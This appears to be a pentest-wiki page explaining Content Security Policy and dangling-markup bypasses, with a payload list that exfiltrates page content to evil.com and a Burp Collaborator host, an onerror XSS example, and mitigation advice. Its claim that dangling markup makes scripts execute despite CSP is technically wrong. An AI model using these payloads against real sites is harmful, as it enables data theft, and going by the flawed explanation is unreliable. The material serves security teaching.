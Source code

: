 # CSP

## **What is CSP?**

**Content Security Policy (CSP)** is a security feature that helps mitigate certain types of attacks like **Cross-Site Scripting (XSS)**, **clickjacking**, and other code injection attacks by defining which resources are allowed to be loaded and executed on a webpage.

CSP is a header or meta tag that instructs the browser on how to handle content loading. It can restrict:

* **Scripts** (`script-src`): Controls the execution of JavaScript.
* **Styles** (`style-src`): Restricts the loading of CSS.
* **Images** (`img-src`): Controls from where images can be loaded.
* **Frames** (`frame-src`): Defines from where iframes can be loaded.

An example of a CSP header:

```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.com; object-src 'none';
```

## **CSP Bypass using Dangling Markup**

A **dangling markup attack** is a way to bypass CSP and inject malicious code by exploiting incomplete or unclosed HTML tags in the source of a vulnerable webpage. This type of attack takes advantage of how browsers handle incomplete or "dangling" HTML structures, which can lead to executing malicious scripts without triggering CSP protections.

## **How Dangling Markup Works:**

When CSP is configured on a site, it typically blocks unauthorized scripts or inline script execution. However, if the HTML structure is improperly closed or certain elements (like `<script>` tags) are injected but not properly finished, an attacker can manipulate the DOM to execute their payload.

## **Example of a Dangling Markup Bypass:**

1. **Incomplete Tag Injection**: Let's say an attacker finds a vulnerability where they can inject a **dangling tag**, such as an incomplete `<script>` or `<img>` tag, in a URL or form field.
2.  **Inserting Unfinished HTML**: The attacker injects a **partially constructed tag** that the browser tries to complete:

    ```html
    <img src="http://malicious.com/evil.jpg"
    ```

    This HTML is injected without closing the tag properly. If the target application does not sanitize the input correctly, the browser may treat it as part of the page and attempt to complete it.
3.  **JavaScript Execution**: When the browser encounters the unclosed `<img>` tag, it might attempt to complete the tag automatically, leading to potential XSS or script execution:

    ```html
    <img src="http://malicious.com/evil.jpg"><script>alert(1)</script>
    ```

    The attacker can now execute JavaScript even though the CSP is in place, as the incomplete tag led to unintentional DOM manipulation and script injection.

**Payloads**

```html
<img src='http://evil.com/log.cgi?
<meta http-equiv="refresh" content='0; url=http://evil.com/log.php?text=
<meta http-equiv="refresh" content='0;URL=ftp://evil.com?a=
<table background='//your-collaborator-id.burpcollaborator.net?'
<base href='http://evil.com/'>
<button name=xss type=submit formaction='https://google.com'>I get consumed!
<form action=http://google.com><input type="submit">Click Me</input><select name=xss><option

```



## **Why CSP Doesn't Prevent This:**

* **Inline JavaScript**: If CSP is configured to block inline JavaScript using `script-src 'self';` or `script-src 'nonce-*';`, it expects inline scripts to either be completely blocked or validated by a `nonce` value. But, with dangling markup, the injection happens in such a way that the browser may consider it a part of legitimate HTML content, inadvertently executing the script.
* **DOM-Based Attacks**: Since this technique leverages DOM manipulation, it sidesteps traditional CSP directives by causing browser-level interpretation of incomplete HTML.

## **Other CSP Bypass Techniques:**

* **JSONP Hijacking**: If CSP allows external script sources (`script-src` includes a trusted external domain), JSONP endpoints on those trusted domains can be exploited to bypass the policy by injecting JavaScript.
*   **Inline Event Handlers**: If CSP is misconfigured to allow inline JavaScript, event handlers like `onclick` or `onload` attributes can still lead to XSS:

    ```html
    <img src="x" onerror="alert(1)">
    ```
* **Nonces and Hashes Misconfigurations**: If a CSP uses **nonces** or **hashes** to validate inline scripts but is improperly configured (e.g., reusing nonces across pages or allowing unsafe hashes), attackers may exploit this to run their own code.

## **Mitigating Dangling Markup:**

To prevent dangling markup attacks, developers must:

* **Properly sanitize and validate input**: Ensure all user-supplied data is sanitized to prevent injection of incomplete tags or dangerous payloads.
* **Correctly configure CSP**: Ensure CSP is correctly enforced with strong rules, such as avoiding inline scripts or using strict `script-src` policies.
* **Close all HTML tags properly**: Ensure the HTML structure of the page is always well-formed and complete, so browsers don't attempt to "auto-fix" dangling or incomplete tags.

## Reference

{% embed url="https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup" %}

{% embed url="https://www.youtube.com/watch?v=XKGjuDlx_1A" %}

